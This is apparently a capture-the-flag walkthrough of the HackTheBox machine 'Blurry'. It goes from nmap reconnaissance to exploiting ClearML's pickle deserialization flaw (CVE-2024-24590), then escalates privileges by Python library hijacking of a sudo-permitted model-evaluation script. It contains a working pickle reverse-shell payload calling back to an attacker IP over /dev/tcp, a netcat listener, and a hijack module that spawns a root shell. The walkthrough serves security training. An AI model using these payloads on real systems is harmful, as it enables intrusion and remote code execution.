





# Blurry HackTheBox WalkThrough


We start the machine with an Nmap scan of all TCP ports.

## Test 2

```
nmap -sS -p- -Pn -n --min-rate 5000 10.129.136.227


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-14 16:14 CEST
Nmap scan report for 10.129.136.227
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

It reports that the open ports are 22 (SSH) and 80 (HTTP). Let's check if these are the services running on those ports and detect the underlying technologies.

### Test 3

```
nmap -p 22,80 -sVC 10.129.136.227


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-14 16:19 CEST
Nmap scan report for 10.129.136.227
Host is up (0.062s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.27 seconds
```

Indeed, there is an SSH service and an HTTP service running on the respective ports.

Let's further analyze the HTTP service using the `whatweb` script.

```
whatweb 10.129.136.227


http://10.129.136.227 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.136.227], RedirectLocation[http://app.blurry.htb/], Title[301 Moved Permanently], nginx[1.18.0]
ERROR Opening: http://app.blurry.htb/ - no address for app.blurry.htb
```

It seems the page is trying to redirect us to `app.blurry.htb`. Since this domain is internal to HackTheBox, our machine’s default DNS servers do not resolve it. To associate this domain with the target IP, we need to add the line `10.129.136.227 app.blurry.htb` to the `/etc/hosts` file.

```
echo "10.129.136.227  app.blurry.htb" >> /etc/hosts
```

Once done, we can rerun the script.

```
whatweb 10.129.136.227


http://10.129.136.227 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.136.227], RedirectLocation[http://app.blurry.htb/], Title[301 Moved Permanently], nginx[1.18.0]
http://app.blurry.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.129.136.227], Script[module], Title[ClearML], nginx[1.18.0]
```

This doesn't reveal much, so after basic reconnaissance, we enter the page via a browser.

The page shows a login panel without a password prompt.


Upon login, a "Getting Started" page appears, explaining how to configure `ClearML` on our machine.



In the configuration, we see the URLs `api.blurry.htb` and `files.blurry.htb`, which we also add to `/etc/hosts` just in case.

```
echo "10.129.136.227  api.blurry.htb" >> /etc/hosts 
echo "10.129.136.227  files.blurry.htb" >> /etc/hosts
```

We then set up a Python virtual environment and follow the site's instructions.

```
python3 -m venv clearml
cd clearml
source bin/activate
pip install clearml
```

Now we run `clearml-init` and paste the configuration the page generated before.

```
clearml-init


ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "NYGUR752G4UYDCSRBQBJ"
    "secret_key" = "Lfgv828psGNnw670m2vYaFMefruIw0sRtt4psrL4pmVPGp2l40"
  }
}
```

Once configured, we explore the site.

The page seems to use `ClearML`, a **machine learning** project management platform.

We are on the dashboard page, where we can see several projects, most of them are examples, but there is one that is not: `Black Swan`.




Inside the `Black Swan` project, in the `experiments section`, there is one experiment recently updated: `Review JSON Artifacts`.



The experiment code is as follows:

```python
#!/usr/bin/python3

from clearml import Task
from multiprocessing import Process
from clearml.backend_api.session.client import APIClient

def process_json_artifact(data, artifact_name):
    """
    Process a JSON artifact represented as a Python dictionary.
    Print all key-value pairs contained in the dictionary.
    """
    print(f"[+] Artifact '{artifact_name}' Contents:")
    for key, value in data.items():
        print(f" - {key}: {value}")

def process_task(task):
    artifacts = task.artifacts
    
    for artifact_name, artifact_object in artifacts.items():
        data = artifact_object.get()
        
        if isinstance(data, dict):
            process_json_artifact(data, artifact_name)
        else:
            print(f"[!] Artifact '{artifact_name}' content is not a dictionary.")

def main():
    review_task = Task.init(project_name="Black Swan", 
                            task_name="Review JSON Artifacts", 
                            task_type=Task.TaskTypes.data_processing)

    # Retrieve tasks tagged for review
    tasks = Task.get_tasks(project_name='Black Swan', tags=["review"], allow_archived=False)

    if not tasks:
        print("[!] No tasks up for review.")
        return
    
    threads = []
    for task in tasks:
        print(f"[+] Reviewing artifacts from task: {task.name} (ID: {task.id})")
        p = Process(target=process_task, args=(task,))
        p.start()
        threads.append(p)
        task.set_archived(True)

    for thread in threads:
        thread.join(60)
        if thread.is_alive():
            thread.terminate()

    # Mark the ClearML task as completed
    review_task.close()

def cleanup():
    client = APIClient()
    tasks = client.tasks.get_all(
        system_tags=["archived"],
        only_fields=["id"],
        order_by=["-last_update"],
        page_size=100,
        page=0,
    )

    # delete and cleanup tasks
    for task in tasks:
        # noinspection PyBroadException
        try:
            deleted_task = Task.get_task(task_id=task.id)
            deleted_task.delete(
                delete_artifacts_and_models=True,
                skip_models_used_by_other_tasks=True,
                raise_on_error=False
            )
        except Exception as ex:
            continue

if __name__ == "__main__":
    main()
    cleanup()
```

If we go to the `info` section of this experiment, we can see that the ClearML version is `1.13.1`.



```
CLEARML VERSION   clearml-1.13.1
```

We can also verify this by clicking on our profile at the top right and going into the settings.



At the bottom right, we will see the following text.

```
WebApp: 1.13.1-426 • Server: 1.13.1-426 • API: 2.27
```

By searching for vulnerabilities in this version of ClearML (1.13.1), we discover the cve [CVE-2024-24590](https://www.cve.org/CVERecord?id=CVE-2024-24590).

---

**What does this vulnerability consist of?**

*This vulnerability exploits the fact that ClearML uses the Python utility `Pickle`, which is used to serialize Python objects.*

*Artifacts shared through ClearML must be serialized with `Pickle`. So when the `get` method is used to load an artifact that has been shared with you, it is deserialized and loaded into memory, allowing the artifact's author to execute code on the machine of the person who loaded it.*

*You can find more information about this vulnerability [here](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/#CVE-2024-24590).*

* Serialize: Convert an object into a format that can be stored or transmitted.

---

The experiment uses `get()` on all tasks tagged with review, so we can create a task that exploits this vulnerability, tag it with `review`, and upload it to the server.

First, we will need to create the task with `Task.init()` and then upload it with `upload_artifact()`. You can find information on how to use these methods in the [official ClearML documentation](https://clear.ml/docs/latest/docs/references/sdk/task/).

We’ll write a class that overwrites the `__reduce__()` method to open a reverse shell. This method defines how the object should be serialized and deserialized, so it will be executed when `ClearML` deserializes it.

* This script should be created in the virtual environment that was previously set up with the ClearML configuration.

```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.10.14.95/1234 0>&1"',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='Just an artefact', tags=['review'], output_uri=True)

task.upload_artifact(name='revshell', artifact_object=command, wait_on_upload=True, extension_name='.pkl', auto_pickle=True)
```

We then set up a listener with `netcat` to receive the reverse shell and run the script in parallel.

```
nc -lnvp 1234
```

```
python exploit.py
```

We wait a few minutes for the `Review JSON Artifacts` experiment to run again, calling `get()` on our malicious artifact. A reverse shell will then connect as the user `jippity`.

```
jippity@blurry:~$ 
```

To have a more comfortable working environment, we adjust the TTY settings. We run:

```
script /dev/null -c bash
```

Press `Ctrl` + `z`, and then execute the following commands in order:

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=`which bash`
```

As the `jippity` user, we can now read the `user.txt` flag:

```
cd
cat user.txt
```

Next, we try to see if we can execute any commands as `root` without providing a password using `sudo`:

```
sudo -l


Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

Upon inspecting the `/usr/bin/evaluate_model` script, we discover that it simply runs the Python script `/models/evaluate_model.py` with the first argument passed to the script, for example:

```bash
/usr/bin/evaluate_model /models/test.pth
# This is the same as:
/usr/bin/python3 /models/evaluate_model.py /models/test.pth
```

```bash
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/opt/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")

    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

We move to `/models` and list the contents:

```
cd /models
ls -l


-rw-r--r-- 1 root root 1077880 May 30 04:39 demo_model.pth
-rw-r--r-- 1 root root    2547 May 30 04:38 evaluate_model.py
```

The `evaluate_model.py` script is what is called by `/usr/bin/evaluate_model`. Let’s inspect it for any vulnerabilities.

```python
import torch
import torch.nn as nn
from torchvision import transforms
from torchvision.datasets import CIFAR10
from torch.utils.data import DataLoader, Subset
import numpy as np
import sys


class CustomCNN(nn.Module):
    def __init__(self):
        super(CustomCNN, self).__init__()
        self.conv1 = nn.Conv2d(in_channels=3, out_channels=16, kernel_size=3, padding=1)
        self.conv2 = nn.Conv2d(in_channels=16, out_channels=32, kernel_size=3, padding=1)
        self.pool = nn.MaxPool2d(kernel_size=2, stride=2, padding=0)
        self.fc1 = nn.Linear(in_features=32 * 8 * 8, out_features=128)
        self.fc2 = nn.Linear(in_features=128, out_features=10)
        self.relu = nn.ReLU()

    def forward(self, x):
        x = self.pool(self.relu(self.conv1(x)))
        x = self.pool(self.relu(self.conv2(x)))
        x = x.view(-1, 32 * 8 * 8)
        x = self.relu(self.fc1(x))
        x = self.fc2(x)
        return x


def load_model(model_path):
    model = CustomCNN()
    
    state_dict = torch.load(model_path)
    model.load_state_dict(state_dict)
    
    model.eval()  
    return model

def prepare_dataloader(batch_size=32):
    transform = transforms.Compose([
	transforms.RandomHorizontalFlip(),
	transforms.RandomCrop(32, padding=4),
        transforms.ToTensor(),
        transforms.Normalize(mean=[0.4914, 0.4822, 0.4465], std=[0.2023, 0.1994, 0.2010]),
    ])
    
    dataset = CIFAR10(root='/root/datasets/', train=False, download=False, transform=transform)
    subset = Subset(dataset, indices=np.random.choice(len(dataset), 64, replace=False))
    dataloader = DataLoader(subset, batch_size=batch_size, shuffle=False)
    return dataloader

def evaluate_model(model, dataloader):
    correct = 0
    total = 0
    with torch.no_grad():  
        for images, labels in dataloader:
            outputs = model(images)
            _, predicted = torch.max(outputs.data, 1)
            total += labels.size(0)
            correct += (predicted == labels).sum().item()
    
    accuracy = 100 * correct / total
    print(f'[+] Accuracy of the model on the test dataset: {accuracy:.2f}%')

def main(model_path):
    model = load_model(model_path)
    print("[+] Loaded Model.")
    dataloader = prepare_dataloader()
    print("[+] Dataloader ready. Evaluating model...")
    evaluate_model(model, dataloader)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python script.py <path_to_model.pth>")
    else:
        model_path = sys.argv[1]  # Path to the .pth file
        main(model_path)
```

It imports several external modules. If we can write to a directory with higher priority in Python’s module search path, we could exploit **library hijacking**.

---

**How does this vulnerability occur?**

*When Python imports a module, it searches a series of directories in a specific order for the module's code.*

*If we can run a script as `root` that imports external libraries (like `pytorch` or `numpy` in this case), we could create modules that execute arbitrary code in directories with higher priority. This code will be executed upon import.*

*Obviously, this only works if we have write permissions in these directories.*

* If you want to learn more about this vulnerability, [this article](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) explains it in more detail.

---

The first directory in Python's module search path is usually the script's own directory. Let’s check if we have write permissions.

```
ls -ld


drwxrwxr-x 3 root jippity 4096 Oct 15 12:52 .
```

Indeed, we have write permissions. We can now create a `torch.py` or `numpy.py` file in the /models directory and insert the following code to execute:

```python
import os
os.system('/bin/bash')
```

This will give us an interactive shell as `root`, allowing us to read the `root.txt` flag and complete the **Blurry** machine.

```
cd
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

Also, remember to delete the `~/clearml.conf` file created in the user’s home directory after running `clearml-init` when configuring the ClearML client.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.